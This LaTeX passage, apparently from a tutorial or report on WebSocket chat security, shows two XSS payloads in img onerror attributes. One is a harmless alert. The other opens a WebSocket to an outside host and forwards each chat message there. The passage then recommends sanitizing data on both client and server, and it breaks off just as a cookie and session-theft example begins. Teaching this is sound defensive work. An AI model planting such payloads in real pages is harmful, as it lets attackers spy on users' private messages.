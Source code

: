 	\begin{lstlisting}[language=html]
	<img src=1 hidden onerror=”alert('HACKED!!')”>
	\end{lstlisting}
	
	Then an alert box will compare on the other client’s browser (even on the client which send the message).
	In this case no damage has been done to the other client, but if the code placed inside the \texttt{onerror} callback is bit more complex it could create serious harm to the client, for example we could open another WebSocket in order to spy the user, for example:
	
	\begin{lstlisting}[language=html]
		<img src=1 hidden onerror="var badws=new WebSocket('ws://10.0.3.40:8080/'); function send(){var msg=document.getElementById('msg').value;addMsg(msg);ws.send(msg);badws.send(msg);} var tmp=document.getElementById('send'); tmp.onclick=send;">
	\end{lstlisting}
	
	In this example we created a new WebSocket and defined again the \texttt{send(…)} function invoked by the button that sends a message, we added: \texttt{badws.send(msg)} in order to forward the message to another server.
	We are also exploiting some JavaScript’s features, but this is not the appropriate section and we will talk about it later on.
	The code for the malicious server is very similar to the code of the legitimate WebSocket server, it only write on the console the received messages.
	
	In order to avoid trivial attack like the one presented, the client should always check incoming data, and if the data must be showed to the user it must be sanitized properly.\newline
	Another possible way to avoid an attack like that is to perform a sanitization even server side, in such a way the server act as a proxy that secure the messages, of course the client must still check the incoming data, assuming that the server is not compromised is a strong assumption that should not be done.\newline
	
	I will now show you an example that could leak important information contained in a cookie, for example the session id, if an attacker is capable of stealing your session id he can access the website with your credentials without the need of knowing your username and password.\newline
	
	\texttt{Note:} again the login procedure is not secure, the focus is not on it and it is as simple as possible in order to make this example easy in order to be reproduced.\newline
	
